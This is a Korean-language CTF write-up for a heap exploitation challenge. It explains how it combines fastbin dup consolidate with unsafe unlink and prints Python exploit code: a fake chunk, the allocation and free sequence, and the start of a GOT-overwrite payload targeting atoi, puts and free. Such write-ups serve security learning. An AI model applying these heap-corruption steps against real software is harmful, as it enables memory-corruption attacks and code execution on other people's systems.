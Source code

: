     여타한 문제들과 동일하게, 전역 변수로 설정되어있는 부분에 청크들의 주소가 적히었고, 그 남겨진 주소들을 이용하는 방식으로 풀어야겠다고 생각할 수 있었다.
    
    문제는 그 곳까지 접근하는 방식이였는데, 전에 쓰였던 fastbin attack의 경우는 불가능하였다.
    
    해당 문제의 경우 alloc을 해주는 부분, 즉 비밀을 만들어내는 함수에 alloc과 free에 flag를 도입하여 중복 할당이나 프리가 불가능하게 되어 있었기 때문에, 일반적인 double free는 불가능하였다. 
    
    heap overflow가 나는 부분도 없었기에, fd값 조작도 불가능하여서 주어진 청크들 안에서 조작을 통한 exploit만 가능했다.
    
    이러한 조건을 만족시키는 기법이 unsafe unlink였지만 한 가지 문제점은 존재했다.
    
    바로 INUSE_FLAG를 조작하지 못 한다는 것이였는데, 이는 보통 해당 기법을 쓸 때 쓰이던 heap overflow가 존재하지 않아서 생긴 문제였다.
    
    우리는 이를 해결해주기 위해서 double free를 생각, 따라서 fastbin dup consolidate를 쓸 수 있다.
    
    flag가 설정되어 있을 때, 동일하지 않는 청크들을 alloc해줌으로써 double free를 일으킬 수 있는 기법이므로 이를 이용하여 할당된 청크임에도 INUSE_FLAG = 0으로 설정될 수 있도록 하였다.
    
    ```python
    fake = ''
    fake += p64(0) # prev size
    fake += p64(0) # size
    fake += p64(0x6020b8) #fd
    fake += p64(0x6020c0) #bk
    fake += p64(0x20) #big chunk의 prev size
    ```
    
    해당 변수가 unsafe unlink에 쓰이는 변수인데, 위의 두 부분을 0으로 세팅하여 앞의 청크 사이즈 = 0, 자신도 = 0 이 되게 한 후, 익스하고자 하며 우회가 가능한 주소가 적혀있는 위치의 주소 -24, -16 위치의 주소값을 적어주었다. 마지막으론 해당 청크 바로 밑에 존재하는 big chunk의 prev size를 0x20으로 설정하여 사이즈 체크 시 우회가 가능하도록 하였다.
    
    ```python
    alloc(1, 'aaaa')
    alloc(2, 'bbbb')
    delete(1)
    alloc(3, 'cccc')
    delete(1)
    ## 여기까지 fastbin dup consolidate
    
    alloc(1, fake)
    delete(2)
    
    ## unsafe unlink
    ```
    
    따라서 이를 fastbin dup consolidate와 함께 써주면 위와 같이 되며, 마지막 delete(2)를 해줌으로서 unsafe unlink 기법을 써준다.
    
    그럼, 따라서 
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/57749aec-4422-4d95-b493-aa606e04dfbb/88a55e38-519f-4ec2-a839-c3ca889e095f/Untitled.png)
    
    0x6020d0, 원래 small secret 청크의 주소가 적혀야할 부분에 0x6020b8의 주소가 적힘으로서, 해당 자리 (bss)에 값을 쓸 수 있게 되었다.
    
- got overwrite
    
    ```python
    pay = ''
    pay += 'aaaaaaaa'
    pay += p64(atoi_got) # big
    pay += p64(puts_got) # huge
    pay += p64(free_got) # small 
    pay += p64(0x0000000100000001)
    pay += p64(0x0000000000000001)
    renew(1, pay) ## 처음에 alloc으로 했다가 안 됨을 깨닫
    ```
    